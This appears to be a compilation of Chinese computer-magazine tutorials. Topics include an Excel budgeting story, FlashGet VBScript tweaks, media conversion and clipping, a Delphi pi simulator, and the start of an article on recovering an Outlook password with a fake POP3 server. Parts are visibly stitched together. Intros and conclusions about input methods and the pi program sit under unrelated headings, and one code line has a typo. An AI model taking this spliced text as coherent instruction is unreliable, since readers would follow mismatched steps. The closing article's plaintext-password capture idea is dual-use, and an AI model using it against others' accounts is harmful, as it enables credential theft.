第一步：启动Excel，打开如图1所示界面，可以看到它已经自动新建了一个文件。Excel中的文件(后缀为XLS)也称为工作簿，它是由一个或多个工作表组成的，如图1所示，工作表又是由多个单元格构成。新建工作簿默认有三个工作表，点击下面工作表名称页签Sheet1、Sheet2、Sheet3可在不同工作表中切换。双击页签再输入新的字符，可以为工作表改名，这里先将Sheet1、Sheet2、Sheet3改成“收入”、“支出”、“总计”。

第二步：点击任意单元格就可以在里面输入文字或数据了。Excel里对单元格的命名类似于围棋，其中的行以数字(1,2,3...)表示，列以英文字母(A,B,C...)表示，如第1行第1列的那个单元格可称为A1，第3行第4列的那个可称为D3，其他以此类推。如图2所示，输入文字及数据。可以用手工方式改变列宽或行高，当光标移到行号或列号之间的分隔线时，会变成左右双箭头键，此时按下鼠标键拖动即可调整。



其中的表格标题是按以下方法制作的：标题文字应该大一些，可将第1行拉高。接着从单元格A1拖动鼠标到G1全选它们，再点击工具栏上“合并及居中”按钮，即可将所选单元格合并成一个，此时输入表格标题文字就可让它居中显示了。如果在工具栏上没有找到这个按钮，可单击工具栏右侧的扩展按钮找找看。接着通过工具栏上的字体、字号等格式按钮设置标题文字，操作与Word相似。

第三步：单击行号1选中该行，再按Ctrl+C键复制(会出现一个活动的虚线框)，接着单击下面的“支出”页签切换到支出工作表，点选A1单元格，然后按Ctrl+V键粘贴，就可以把表格标题复制过来了。接下来如图3所示，在支出工作表中输入相应数据。



第四步：单击“总计”页签切换到总计工作表，如图4所示，输入数据。



第五步：近来水泊梁山的电源经常出问题，安全起见，还是先保存文件吧。点击“文件→保存”，在打开的保存对话框中输入文件名“李逵买房奋斗录”，点击“保存”按钮即可。

第六步：在收入工作表中，用鼠标从列号B拖动到列号E，使该表中除“日期”一列外，其他内容都选中，接着点击菜单“插入→名称→定义”，在弹出对话框中输入“收入”。同样，将支出工作表除“日期”列外的其他内容都定义为“支出”。切换到总计工作表中，点选B4单元格，输入“=SUM(收入)-SUM(支出)”（不含引号），计算本月的余额。英文等号“=”表示接下来输入的是Excel函数表达式（也称公式），SUM是加法函数，这里表示将“收入”列所有数值相加，整个表达式的含义就是用“收入”列之和减去“支出”列之和，剩下的自然是这个月的赢余了。在B6单元格中输入“=$B$4-$B$2”，表示用合计收入减去计划存款数，这样就能看出收入的钱数比计划存款多还是少。本实例中输入的“$B$4”、“$B$2”即是B4、B2的意思，加$是表示引用单元格绝对值。

第七步：以后只要输入收入、支出的实际情况，Excel会自动为你计算出实际收入及任务完成的情况。而且随着数据更新自动同步更新计算结果。

第八步：可以将工作簿加上密码，以防止别人看到你的隐私信息：在保存对话框中，单击右上角“工具”按钮，从弹出菜单中选择“常规选项”，然后根据内容提示输入不同级别的限制密码即可。

## 第二回 现学现卖，懒惰人自有懒惰招

自从李逵使用Excel收入/支出明细表后，果然一改以往大手大脚花钱的毛病。比如四月份的时候，有一次陪MM逛商场，忍痛给她买了一双500多元的靴子，回来打开Excel一算，未过半月已严重超支300多，赶紧采取补救措施：烟，戒半月，如有同事抽烟，就借机上前蹭一支；啤酒，由一天一瓶改为两瓶一天；上网泡坛子时间改为一周一次，节约若干电费及电话费；在午餐时刻恰到好处地去朋友家拜访等。几经努力，当月总算没有超支。

用了一段时间后，李逵觉得自己的电子表格应该更智能化一些：像啤酒这类有固定价格的商品，输入啤酒数量即可自动计算出总价来。

第一步：首先点击“插入→工作表”增加一个新工作表，将它命名为“常用商品报价”，并如图5所示输入常用商品的名称及单价。



第二步：切换到支出工作表中，右单击列号B（即“啤酒”一栏），再选择“插入”即可插入新的一列，原来的B列自动顺延成C列。如图6所示，在B2上输入“数量”，点选C3



单元格，在英文状态下输入等号“=”，再点击B3单元格，此时会发现该单元格被一个活动的虚线框包围，不用管它，继续在英文状态下输入星号“*”（代表数学中的乘号），再单击下方“常用商品报价”页签切换到该工作表中，并点击该表中的C3单元格（即啤酒的单价2元），按下回车键，则B3单元格自动填充上公式“=B3*常用商品报价!C3”，将其改成“=$B3*常用商品报价!$C$3”。第三步：点选C3单元格，然后拖动它右下角的小黑块（即填充柄）向下拖动直到总数显示为31（1个月的天数）。现在，不管是哪天买的啤酒，比如6号那天李逵买了10瓶啤酒，只要在6号那天的数量单元格中输入10，左侧相对应的单元格中就会自动显示出20来。其他商品皆可以此类推。

## 第三回 老鸟进阶，精打细算查月供

过了一段时间，李逵还真的攒下了不少钱，看着铺天盖地的房产广告不禁跃跃欲试，于是又找到了孙二娘，让她帮算一下不同利率、期限及本金的情况下，月供需要多少。孙二娘只好又打开Excel，帮他做了一个月供查询表。

第一步：如图7所示，在B1单元格中输入贷款金额，在A4至A9单元格内输入还款年限，在B3至F3单元格内输入年还款利率。



第二步：选中B4单元格，输入“=PMT($B$3/12,$A$4*12,$B$1,0,0)”（不含引号），按下回车键，即为在该种情况下每月所还贷款数量。

第三步：选中B4单元格，用鼠标拖动其右下角的填充柄，向下拖动填充此列，接着向右拖动填充整个表格。然后修改其他单元格中的公式，比如B5单元格中要将A4改成A5，因为这里算的不是5年而是10年的期限了(=PMT($B$3/12,$A$5*12,$B$1,0,0))；而C6单元格的前两个参数要改成C3和A6，因为算的是6%利率15年期限的月供了(=PMT($C$3/12,$A$6*12,$B$1,0,0))。其他以此类推。

## 第四回 更上层楼，自动批改习题卷

李逵与林冲关系不错，这一日一起在路边摊吃煎饼（此法省时省钱也）的时候，听林冲诉苦说来培训的学生太多，但只是批改考卷就得要很长的时间。李逵说，“因为忙，好久没下馆子了，你请我吧，我保证十分钟帮你搞定。”林冲看李逵不像是说假话，就答应了，到了西山酒店，吃饱喝足之后，李逵找到二娘孙二娘，把林冲的烦恼告诉了她。孙二娘微微一笑，对林冲说，“林教头，我兄弟真没骗你，这事用Excel一会儿就能解决了。”

第一步：首先建立一个如图8所示的工作表，保存为“考试样卷.xls”。在E8单元格中输入公式“=SUM(E3:E7)”，这将用来统计学生答题的得分。



第二步：新建一个如图9所示的工作表，保存为“答案样卷.xls”。



第三步：设置自动批改公式。打开工作簿“考试样卷.xls”，选中D3单元格，输入以下公式：
`=IF(C3=[答案样卷.xls]Sheet1!B3,"正确",IF(C3="","未答",IF(AND(C3<>[答案样卷.xls]Sheet1!B3,C3<>[答案样卷.xls]Sheet1!C3,C3<>[答案样卷.xls]Sheet1!D3),"错误")))`
选中E3单元格，输入以下公式：
`=IF(D3="正确",5,IF(D3="未答",0,IF(D3="错误",-2)))`
同时选中D3、E3，然后拖动填充柄将这两个单元格中的公式复制到下面各题相对应的单元格中。

第四步：将两个文件保存在同一个文件夹中。这时打开“考试样卷.xls”，试着做一下题目，在“解答”下面的各个单元格中填写答案，就能自动显示对错，并打分了。

当然，以上只是一个简单的模型，到真正实用的层次还需要做很多的加工，如锁定非答题区域不让学生改动等。这得林教头自己去多学习，这里就不多讲了。

### 友情提示

这个例子中孙二娘用到了IF函数，它的语法格式如下：IF(逻辑语句,当逻辑值为真时返回的值,当逻辑值为假时返回的值) 如：IF(B3>=60000,"优秀","称职")，它表示当B3单元格数值不小于60000时，这个单元格内容为“优秀”，否则此单元格内容为“称职”。IF函数能够嵌套使用，但最多只能嵌套7层。

## 第五回 他山之石 可以攻玉

在孙二娘的大力推广下，水泊梁山兴起一股使用Excel风，大大提高了工作、学习的效率。随着用户的增多，许多人都把自己制作得比较好的电子表格存为模板（保存的时候，在“保存类型”中选模板即可）上传到网络上。所以到后来，李逵基本上都不用自己做电子表格了，直接从网上下载别人制作的模板打开修改一下就可为己所用。这不，前几天他还从网上下载了一个Excel制作的生肖日历模板(http://office.microsoft.com/zh-cn/templates/default.aspx)，非常漂亮。

（注：本文部分源文件可在http://www.newhua.com/cfan/200501/excet.rar处下载）

## FlashGet 改造实录

安装好FlashGet后，在网页空白处右击鼠标会从弹出菜单中看到“使用网际快车下载全部链接”项，点击后，会显示一个该网页所有可下载链接的列表，单击“确定”即可下载它们。不过，有时我们只需要下载其中的某类资源，如Flash动画、所有图片等，虽然可以在FlashGet的下载列表中一一选取，不过操作太麻烦了。能否让FlashGet只搜索并下载我们想要的哪类资源呢？下面就来对此深入研究一下。

通过查看注册表，发现“使用网际快车下载全部链接”调用的是FlashGet安装目录下的jc_all.htm文件，打开之后发现其中只有一段VBScript脚本代码（为叙述方便，我给代码加上了行号）：

```
(01)<script language="VBScript">
(02)Great thanks to Vladimir Romanov(Author of ReGet Pro)
(03) On Error Resume Next
(04) set JetCarCatch=CreateObject("JetCar.Netscape")
(05) if err<>0 then
(06) MsgBox("FlashGet not properly installed!"+vbCrLf+"Please Install FlashGet again")
(07) else
(08) set links = external.menuArguments.document.links
(09) ReDim params(links.length*2)
(10) params(0)=external.menuArguments.document.Url
(11) for i = 0 to links.length-1
(12) params(i*2+1)=links(i).href
(13) params(i*2+2)=links(i).innerText
(14) next
(15) JetCarCatch.AddUrlList params
(16) end if
(17) </script>
```

这里只对这个脚本关键代码作一分析，限于篇幅，具体VBScript语法就不介绍了。第04行创建了一个FlashGet对象(JetCar)，供下面的代码调用其功能；第08行通过网页的内置对象搜索网页中的所有的链接；第11到14行是一个循环，将搜索到的所有链接对象下载地址(href)及说明信息(innerText)放到数组Params中；第15行非常关键，它通过前面创建的FlashGet对象的AddUrlList功能，将收集到的下载信息加入FlashGet下载列表中。

从上面分析可以看出，只要将网页中的Flash动画或所有图片的下载信息过滤出来传送给FlashGet对象，就可以按照要求下载某类特殊的资源了。

## 实例1:让 FlashGet 一键下载 Flash

现在网上流行的让FlashGet一键下载Flash的代码(本文姑且称之为“旧版代码”)，是通过检索<OBJECT>标志来获得Flash动画的相关下载信息的。但是有许多Flash动画是直接嵌套在<EMBED>标志中的，使用旧版代码的时候对这部分Flash动画就望尘莫及了。笔者对旧版代码作了一点改进，使其能同时搜索<OBJECT>和<EMBED>中的下载信息。

- 第一步: 首先在FlashGet安装目录下复制一份jc_all.htm，将其改名为jc_flash.htm，并在“记事本”中打开该文件。
- 第二步: 将前面所示代码中的第08至14行，替换成以下代码(如果你懒得输入代码，可去http://www.newhua.com/cfan/200501/superFlashGet.zip下载，其中包括本文两个实例的完整代码文件及注册表文件)：

```
set linko = external.menuArguments.document.getElementsByTagName("object")
set linke = external.menuArguments.document.getElementsByTagName("embed")
ReDim params((linko.length*2)+(linke.length*2))
params(0) = external.menuArguments.document.Url
for i = 0 to linko.length - 1
seta=external.menuArguments.document.createElement("<A HREF="+linko(i).Movie+"></A>")
params(i*2 + 1) = a.href
params(i*2 + 2) = "Flash动画"
a = null
next
for j=0 to linke.length - 1
set b = external.menuArguments.document.createElement("<A HREF="+linke(j).src+"></A>")
params(i*2 + 1) = b.href
params(i*2 + 2) = "Flash动画"
i=i+1
b = null
next
```

- 第三步: 编写一个注册表文件，注册右键菜单：

```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\使用网际快车下载本页中的Flash动画]
"contexts"=dword:000000f3
@="d:\\Program Files\\FlashGet\\jc_flash.htm"
```

将最后一行中的文件夹路径改成你自己系统中FlashGet安装的实际路径，再把该文件保存为jc_flash.reg。双击这个REG文件将其导入注册表，重新打开IE，就可以从右键菜单中发现多了一项“使用网际快车下载本页中的Flash动画”，如果该页有Flash动画，则单击该命令行就可以直接下载了。不过有一点需要注意: 有些调用Flash动画的网页，其源代码中并不直接显示出swf文件的地址，这时候我们所制作的右键菜单就无能为力了。

## 实例2:MM 图片 一律全收

同理，我们可以只下载网页上的所有图片文件。

- 第一步: 复制一份jc_all.htm，将其命名为jc_allpic.htm，如前所示，将第08至14行替换成如下代码：

```
set images = external.menuArguments.document.images
ReDim params(images.length*2)
params(0)=external.menuArguments.document.Url
for i = 0 to images.length-1
params(i*2+1)=images(i).src
params(i*2+2)=images(i).alt
next
```

- 第二步: 复制上例中的注册表文件jc_flash.reg，命名为jc_allpic.reg。将其中的菜单名称改成“使用网际快车下载本页中的所有图片”，再将最后一行的文件名改成jc_allpic.htm，双击导入注册表即可。重新打开IE，随便进入一个网址，在网页空白处右击，再点击“使用网际快车下载本页中的所有图片”项，是不是所有的图片都加到下载列表中了(见图)，单击“确定”按钮，所有美图都跑不掉啦。



## 使用瑞星个人防火墙保护上网安全

经常有朋友问我，装了瑞星杀毒软件后还需不需要安装附带的个人防火墙。答案是肯定的。杀毒软件实时监控(也叫病毒防火墙)功能是拦截并清除病毒的，而个人防火墙是一款网络监控软件，主要作用是防黑客攻击。

瑞星个人防火墙2005版是一款优秀的个人网络安全产品，提供了众多使用灵活且效力强劲的功能。

## 让Real媒体在影碟机上播放

现在，网上资源最丰富、最普及的主流多媒体文件可以说非RM与RMVB莫属。有时候，我们希望将这些媒体格式转换为VCD所用的MPEG格式，利用家中的VCD、DVD机来播放，于是把RM或RMVB电影转成VCD或DVD就成了众多网友一直追求的目标。本文就会为大家介绍这样一款软件。

Zealot RM to VCD SVCD DVD Converter是这样一款功能强大并且使用简单的视频文件格式转换工具。它支持RM或RMVB到VCD、SVCD、DVD的视频转换。

- **Zealot RM to VCD SVCD DVD Converter小档案**

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 2.1 |
| 软件大小 | 7.92MB |
| 软件性质 | 共享软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.zealotsoft.net/download/mconverter.exe |
| 软件备注 | 未注册版只能转换原RM或RMVB文件的40～50%，另外，安装软件后，可能会造成RealPlayer不能正常运行，一般重装即可。 |

下面就来看看如何使用Zealot RM to VCD SVCD DVD Converter程序，将RM或RMVB文件转换成MPEG文件，并用Nero把它刻录成VCD盘。

## 1.将RM或RMVB文件转换成MPEG

VCD格式为MPEG1(以下简称MPG)，所以要把RM或RMVB文件转化成VCD，就是要把RM转成VCD的MPG格式。

**第一步:** 运行程序打开主界面(见图1)，在Output Type(输出类型)处设定输出文件的格式。因要制作的是VCD盘，所以此处选择RM to VCD，然后在Output Format(输出格式)处选择输出制式。由于我国的电视一般采用的是PAL，因此在此就选它，然后通过拖动Volume(声音)的滑动条来设置音量(见图2)。





**第二步:** 按下Open RM File(打开RM文件)项后的“…”键，选择准备转换的RM或RMVB文件，用后面的“Player”可以预览一下选取的文件是否正确;再点下Output Filename(输入文件名)项后的“…”键，设定输出文件的名称、保存位置。最后，按下Start to Convert(开始转换)按钮，程序开始读取数据并运行转换(见图3)。一般来说，1个小时的片子需要1小时的时间进行转换(转换速度和CPU有直接关系)。



## 2.刻VCD光盘

转换完成后当然就是把生成的MPG文件刻成VCD了，软件自然是常用的Nero了。

**第一步:** 打开“开始”菜单，选择“Nero → Nero StartSmart”。

**第二步:** 选择“照片和视频”按钮下的“制作视频光盘”(见图4)。在接下来的界面中，“添加”转换好的MPG格式文件，可重复使用“添加”按钮，按光盘的容量，导入多个文件，以充分利用光盘的空间(见图5)。最后，点“下一步”，进行“刻录”即可。





至此，你已经成功的将RM或RMVB文件转换成了一部VCD。现在，可以用VCD/DVD机来播放这张VCD光盘与家人一起分享了。

（云南 Lucky）

## 剪辑多媒体 留住最美的那一刻

不少读者来信询问怎样才能把视频中的一部分剪切出来。常常在网上看到别人用电影中某些片断，做成一些特效视频、Flash或其他动画图片，很是羡慕！而且，有时一些电影的开头歌曲、插曲或片尾曲很好听，也想把它们截取下来收藏，怎么才能办到呢？如果你需要做的PPT或是课件中需要某段视频文件怎么办呢？其实剪辑音频和视频的软件很多，为此我们挑选了其中几款推荐给大家，一起来看看吧。

## 工具一:Windows Movie Maker

剪辑对象:WMV、AVI(需要安装相应解码器)

这是微软在Windows XP中捆绑的电影编辑软件，微软自己的产品(比如WMV格式的)用它来编辑挺合适的。注意Windows Movie Maker转换速度相对比较慢，不过质量没问题。

**第一步:** 运行Windows Movie Maker(启动路径通常为C:\Program Files\Movie Maker\moviemk.exe);

**第二步:** 选择“文件→导入到收藏夹”，选择所要编辑的文件，在这里注意取消“为视频文件创建剪辑”，否则一边导入一边剪切，速度很慢;

**第三步:** 在“收藏”列表中的视频文件上右击，选择“添加到时间线”，在下边时间线上选中文件，然后通过“剪辑”菜单中“设立起始剪裁点”和“设立终止剪裁点”来控制剪切部位(见图1);

**第四步:** 选择好剪切位置后，通过“文件→保存电影文件”，根据向导选择保存路径即可。

## 工具二:TMPGEnc

剪辑对象:DVD(MPEG2)、VCD(MPEG1)格式

TMPGEnc是一套专门支持MPEG编码格式的影音文件转换工具，由于刻录成VCD必须是MPEG格式，很多人将RMVB格式转成MPEG格式所用的工具就是它了，它所生成的MPEG文件的图像质量非常好。当然，TMPGEnc并不只是用来转换而已；它还是一款有专业水准的MPEG编码格式的影音文件剪切工具。

- **TMPGEnc小档案**

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 2.58 |
| 软件大小 | 3396KB |
| 软件性质 | 共享软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/1439.htm |
| 软件备注 | 未注册版可免费试用15天。 |

**第一步:** 运行TMPGEnc，在启动到主界面后，依次单击“文件→MPEG工具”，切换到“剪接”面板;

**第二步:** 在“类型”的下拉菜单中，可以看出TMPGEnc只支持MPGE-1(对应VCD格式)或MPGE-2(对应DVD格式)这两种类型的影音文件，通常剪切的MPEG格式文件就将其选择为“MPGE-1系统码流(自动)(VCD)”或“MPEG-2节目(DVD)”即可，然后单击“添加”，选择你所要剪切的目标文件后单击“打开”;

**第三步:** 加入要剪切的文件后，选中该文件，单击“编辑”按钮，打开“编辑连接项”，通过“{、}”按钮来控制剪切区域，选择好所需要的区域后，单击“确定”;

**第四步:** 这时单击“浏览”，设置文件保存的名称和路径，单击“执行”即可开始进行剪切了。

## 工具三:Helix Producer Plus

剪辑对象:Real媒体格式

对于我们喜欢的RMVB格式文件的剪切，TMPGEnc、超级解霸等软件都是无法胜任的，现在只好请出RealMedia Editor了。

- **RealMedia Editor小档案**

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 9.0.0.29 |
| 软件大小 | 1.95MB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.newhua.com/cfan/200502/rmeditor9.exe |
| 软件备注 | 由于RealMedia Editor对中文的文件名支持不太好，大家注意剪切的文件名最好改为字母和数字。 |

**第一步:** 下载软件后，解压，运行rmedtgui.exe启动软件，依次选择“文件→打开Real媒体文件”;

**第二步:** 挪动时间条上的红线(预览窗口下)，到要剪切位置，点击按钮“入”(影片起始点)，然后再移动红线至剪切结束位置，点击按钮“出”(影片终止点)(见图2)，选择好剪切部分后，依次选择“文件→Real媒体文件另存为”命令，然后选择一个保存目录保存。


## 工具四:Nero Wave Editor

剪辑对象:MP3、WAV等音频格式

Nero刻录软件中的Nero Wave Editor(Nero波形编辑器)组件非常适合用来进行音频剪辑。

- 第一步:打开 Nero Wave Editor，选择菜单命令“文件→打开”，打开MP3等音频文件。
- 第二步:在下面波形显示窗口中单击作为截取部分起点的波形，然后按下鼠标左键向右拖动选中需要截取部分的波形，状态栏同时显示选中部分波形的起始时间。如果需要，你还可以使用空格键对截取的部分试听(见图3)。
- 第三步:单击“编辑”菜单中的“复制到文件”命令，在打开的对话框中选择好“保存类型”并输入文件名，单击“保存”按钮就可以在指定位置得到截取的文件了。

> 小提示
如果不想因为剪辑MP3文件而安装Nero，推荐使用“中文录音编辑处理器 WAVECN”(下载地址:http://www.onlinedown.net/soft/1255.htm)。其操作方法与Nero Wave Editor几乎相同，但更为专业。

## 工具五:River Past Video Slice

剪辑对象:几乎所有媒体文件

上面虽然已经介绍了不少工具，但基本上都是针对某一种或某一类多媒体格式，而我们下面要介绍的 River Past Video Slice 则是一款全能型的媒体剪辑工具。它可以处理多种媒体格式文件，支持DivX、XviD、MPGE4、MPEG1、RM、WMV等格式的剪辑，而且可以将剪辑好的视频文件输出为AVI、DivX、MOV等多种格式。

- **River Past Video Slice 小档案**

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 3.3.0.41210 |
| 软件大小 | 2193KB |
| 软件性质 | 共享软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://download.riverpast.com/download/videoslice_setup.exe |
| 软件备注 | 未注册版软件输出的图像有限制。 |

- 第一步:选择菜单中的“File→Open Video(文件→打开视频)”，打开要剪辑的媒体文件。
- 第二步:将光标定位至要剪辑部分的起始位置，点击 Set Start Time(设置开始时间)，然后将光标定位至剪辑结束的位置，点击 Set End Time(设置结束时间)(见图4)。
- 第三步:点击Export(导出)按钮，在弹出窗口中的 File Type(文件类型)下拉菜单中选择转换后的 Output Format(文件格式)，点击Next(下一步)按钮后，设置 Video Settings(视频格式)及 Audio Settings(音频格式)，最后设置文件的 Output Directory(输出目录)，点击 OK，开始转换。

## 工具六:QQ

剪辑对象:可将几乎所有格式的视频文件剪辑后转换为GIF动画。

很多人都会好奇:到底论坛中的影片GIF动画签名是如何截取的?在这之前大家通常是使用豪杰解霸3000中的格式转换工具转换为GIF，但为了转换还需要多安装一款软件实在麻烦，不过以后就不用这样了，只要使用QQ新版本增加的动态截屏功能就能截取影片视频GIF动画了。

- 第一步:打开QQ后，将QQ聊天窗口设置为“聊天模式”，然后，点击“菜单→系统设置”，在窗口左侧选择“影片截图设置”。
- 第二步:在“截取的动态图片宽度是”后输入影片的宽度，注意不要设置过大，这是生成签名图的尺寸，设置为50~100即可。在“每次捕获[ ]帧动态图片”中输入捕获的帧数，帧数越多，截取影片越长，但生成文件体积也越大。“每间隔”及“获得的动态图片的播放速率是”两项建议使用默认，点击“确定”即可。
- 第三步:用暴风影音等媒体播放器打开视频文件，并播放。同时，打开任意在线好友的QQ聊天窗口，点击“捕捉屏幕”按钮右侧的三角按钮，选择“动态图片截图”(见图5)。
- 第四步:用鼠标点击媒体播放器窗口，到需要抓取的位置时，按下Scroll Lock键(如果截图失败，可以试着按住Scroll Lock键，直到截图完成)，开始截图，截好的动态GIF图就会出现在QQ聊天窗口中，将其发送后，右击图片，选择“另存为”，把它保存为GIF格式图片。

(Joychan 新疆 张迎新 陕西 生如夏花)

## 免装 Office 办文档轻松看

很多朋友喜欢用万能五笔输入法，它可以让你同时使用拼音、笔画、英文等多种输入方法，但随着极点中文输入法的不断完善，越来越多的人开始选择它，如果你对万能五笔恋恋不舍，那么跟我来把你心爱的万能五笔输入法直接集成到极点中文中吧！

## 1.微软的 Viewer 系列

微软最近发布了 Word Viewer 2003、Excel Viewer 2003、PowerPoint Viewer 2003、Visio Viewer 2003 四款 Viewer 软件。它可以在没有安装 Office 的电脑中浏览各种 Office 文档，而且使用方法非常简单，只要下载安装后，用相应的软件，打开相应的文档即可。但这些软件只具有基本的查看功能，无法对文档进行编辑修改(见图1)。

Visio Viewer 2003 简体中文版:http://www.onlinedown.net/soft/37114.htm

> 小提示
因为速度问题，很多朋友的电脑中只安装了较低版本的 Office，这些版本通常无法正确打开被高版本 Office 软件处理过的文档。这时可考虑安装 Viewer 系列软件，虽然不能编辑，但可以满足正常浏览。

Word Viewer 2003 简体中文版:http://www.onlinedown.net/soft/37109.htm
Excel Viewer 2003 简体中文版:http://www.onlinedown.net/soft/37106.htm
PowerPoint Viewer 2003 简体中文版:http://www.onlinedown.net/soft/19604.htm

## 2.查看 MDB 数据库

微软 Viewer 系列已经为我们解决了四大类数据，那么如何来查看 Access 所用的数据库文件呢?这里推荐一款只有 42KB 的 MDB 数据库浏览器——辅臣数据库浏览器(下载地址:http://www.newhua.com/cfan/200502/DatabaseBrowser.exe)。它不仅能浏览，并且还可以修改 MDB 及 XLS 文件，使用方法简单，打开软件后，只要使用“打开数据库”按钮，打开相应的文件就可以了(见图2)。

> 小提示
其实微软已经为我们准备了可以查看 MDB 数据库文件的 Snapshot Viewer，但直到截稿时，仍没有推出简体中文版，如果需要，可以从 http://download.microsoft.com/download/e/f/9/ef9c7199-a520-4f9b-99ea-f61702daac20/snpvw.exe 下载英文版。

现在你就可以在极点中文中使用万能五笔输入法了，如果需要切换为极点输入法，只要右击极点中文状态栏，选择“输入方案与词库→default”即可。

(北京 阮征)

(sunny)## 照片从模糊到清晰 CleanVue 帮你搞定

用过数码相机的朋友都知道，照片如果放大到原尺寸看起来就会模糊，原因当然是多方面的，比如相机本身的问题，或是拍摄技术所致。如果想让照片清晰一点，每次都要用软件再处理，非常麻烦。不如试试下面的方法吧，你要做的仅仅是拷贝图片。

- CleanVue小档案
- 软件版本:1.1b
- 软件大小:323KB
- 软件性质:免费软件
- 适用平台:Windows 9x/2000/XP
- 下载地址:http://www.neuviewed.com/cleanvue/downloads/CleanVue110b.exe

下载并安装后软件会自动运行，同时将自己添加入自启动项，在系统托盘产生图标。右击系统托盘图标，选择 Set Image Folder（设图片目录），指定好保存照片的文件夹（如D:\PIC），完成后右击系统托盘图标，勾选Enable CleanVue(激活CleanVue)，此时软件已经在后台工作了(见图)。



现在不管是从硬盘，还是从数码相机拷贝照片到指定好的文件夹(如D:\PIC)，CleanVue都会帮你完成转换，而且软件并不会覆盖原文件，而是添加一个以_cleanvue结尾的新文件，该文件就是经过锐化的清晰图片，这样你可根据需要选择照片。
(广西 漫步)

## 用Delphi编写圆周率模拟器

圆周率π是个古老的东西，早在1700多年前祖冲之已将其值精确到小数点后7位，而如今通过电脑程序已能算到十亿位之多！我是个圆周率爱好者，这个“爱好”至少是出于对这个无理数的热衷，我不但可以背诵到小数点后100位，而且还收藏着从网上找到的几个计算π的程序，你有兴趣可以到我的小站nihg.yeah.net找一下。文章中的源程序以及可执行程序可以在http://www.cfan.com.cn/11program/200502/htkdma.html找到。

### 模拟器原理

本程序并不使用计算π值的算法，它只是一个概率模拟，即在边长为200的正方形内随机产生多个点，将点以圆弧为界分开统计，由于点的个数很多，直至几乎布满整个区域。此时，点的个数就可以看作就是它所在区域的面积。可以得到如下推导：
(1)蓝色区内点个数:总个数≈蓝色面积:总面积
(2)蓝色区内点个数:总个数≈圆面积/4:总面积
(3)蓝色区内点个数:总个数≈π×200×200/4:200×200
(4)π≈4×蓝色区内点个数/总个数
当然，点的位置会重复，所以结果与π值是有差别的，不过，当点足够多时，可以看到一个非常接近的结果。

### 程序设计

打开Delphi 7，首先按照图1设计窗体(见图)。
程序首先在Image1控件区域内画一个边长为200的正方形作为程序的演示窗口，故FormCreate事件如下：

```
procedure TForm1.FormCreate(Sender: TObject);
begin
  // 画亮绿色的正方形演示框
  Image1.Canvas.Brush.Color := clBlack;
  Image1.Canvas.FillRect(Rect(0, 0, 199, 199));
  Image1.Canvas.Pen.Color := clLime;
  Image1.Canvas.Rectangle(0, 0, 199, 199);
  DoubleBuffered := True;
end;
```

接着放入一个Timer实现点的绘制以及π的计算：

```
procedure TForm1.Timer1Timer(Sender: TObject);
var
  a, b, i, ii:longint;
  pi, piok:single;
begin
  // 随机产生坐标点
  i:=random(200);
  ii:=random(200);
  if (i*i+ii*ii<40000) then
  begin
    // 以200为半径的圆内的点设为蓝色
    Image1.canvas.Pen.Color:=clAqua;
    a:=StrToInt(Label1.Caption);
    Label1.Caption:=IntToStr(a+1);
    // 显示当前点的坐标
    Label6.Caption:=IntToStr(Image1.Canvas.PenPos.X);
    Label7.Caption:=IntToStr(Image1.Canvas.PenPos.Y);
  end
  else
  begin
    // 超出这个区域的点都在圆外设为黄色
    Image1.Canvas.Pen.Color:=clYellow;
    b:=StrToInt(Label2.Caption);
    Label2.Caption:=IntToStr(b+1);
  end;
  // 画点(长为1像素的直线)
  Image1.Canvas.MoveTo(i, ii);
  Image1.Canvas.LineTo(i, ii+1);
  // 计算pi的值
  pi:=(4*(StrToInt(Label1.Caption)))/(StrToInt(Label1.Caption)+StrToInt(Label2.Caption));
  Label3.Caption:=FloatToStr(pi);
  // Label4显示的是最接近真实pi的值。
  piok:=StrToFloat(Label4.Caption);
  // 得出最接近的圆周率值 piok
  if (abs(pi-3.141592653589))<(abs(piok-3.141592653589)) then
    Label4.Caption:=FloatToStr(pi);
end;
```

最后加入两个SpeedButton作为开始和暂停按钮，代码分别是Timer1.Enabled:=true;和Timer1.Enabled:=false;。好了，程序这样就完成了，赶快按下F9亲自模拟一下π的计算吧！



## 将智能狂拼植入紫光拼音

智能狂拼3(试用版)是一款很不错的输入法，比如可以方便地输入古诗词，还可以输入超级简拼编码等。但很多朋友喜欢使用紫光拼音，那么如何将智能狂拼放入紫光拼音中呢？

1. 先安装智能狂拼3(试用版)，或在其他已经安装智能狂拼3(试用版)的电脑上执行下面的步骤。
2. 点击“开始→程序→中文之星智能狂拼Ⅲ(试用版)→个人设置备份”，弹出“个人设置备份”对话窗口(见图)。在窗口中选择“导出”及“拼音用户词”，再单击“请选择需保存的文件名”栏的“…”按钮，将导出的拼音词库保存好。
3. 进入紫光拼音，打开“属性设置和管理中心”窗口，在窗口左侧点击“用户词库管理”，最后单击“从定义文本中导入新词”按钮，将刚才的文本文件导入即可。
(北京 伊长林)



## 小结

虽然程序并没有采用圆周率的算法，但能通过随机数对π进行逼近，而由无数点描成的美妙圆弧让我们叹为观止。其实，这样的思想可以用于许多场合，比如对某个数学定理或者自然规律进行模拟，希望这样的思路对您有所启发。
(浙江 杭州 研骞)

## 找回丢失的Outlook账户密码

许多人习惯于让Outlook记住密码，收邮件时便不必每次都输入邮箱密码。但时间一长，马虎的人会把自己的邮箱密码忘记，这样就无法重新设置或者登录Web界面收取邮件了。Outlook的密码信息是加密存储的，你无法提取密码。我们的对策就是针对邮箱服务中安全机制最薄弱的环节采取行动……源程序以及电子版全文可以在http://www.cfan.com.cn/1program/200502/qkducd.html找到。

众所周知，POP3协议本质上是一种明文协议，也就是说，虽然Outlook本地存储的密码是加密的，但当它连接到POP3服务器准备收取邮件时，必须以明文的形式提供密码。因此，只要我们开发一个POP3服务器(不必是功能完善的POP3服务器，只要骗过Outlook即可)，让Outlook从该服务器收取邮件，Outlook就会乖乖地交出加密得严严实实的密码。

### 构造POP3服务器

